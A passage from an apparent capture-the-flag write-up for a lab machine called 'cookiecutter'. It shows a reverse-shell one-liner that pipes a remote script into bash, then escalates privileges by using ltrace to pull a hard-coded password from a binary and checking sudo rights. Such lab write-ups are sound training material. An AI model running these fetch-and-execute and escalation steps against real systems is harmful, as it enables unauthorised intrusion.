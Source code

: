 We can get a reverse shell using `curl <IP>/shell.sh|bash`:

<figure><img src="../../../.gitbook/assets/image (3886).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Password-Check -> Setuid Cap

The user's home directory has an interesting file:

{% code overflow="wrap" %}
```
bob@cookiecutter:~$ ls
local.txt  password_check
bob@cookiecutter:~$ file password_check 
password_check: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=f36f172722b503af6e90af90a690e70b43e9cc01, not stripped
bob@cookiecutter:~$ ./password_check
Segmentation fault (core dumped)
```
{% endcode %}

Using `ltrace` shows a password:

```
bob@cookiecutter:~$ ltrace ./password_check 
strcmp("I_Pr3f3r_C4k3!", nil <no return ...>
--- SIGSEGV (Segmentation fault) ---
+++ killed by SIGSEGV +++
```

Using this password, we cannot `su` to `root`, but we can check `sudo` privileges:

```
bob@cookiecutter:~$ sudo -l
[sudo] password for bob: 
Matching Defaults entries for bob on cookiecutter:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User bob may run the following commands on cookiecutter:
    (bob : python_admin) /usr/bin/admin_python3
```
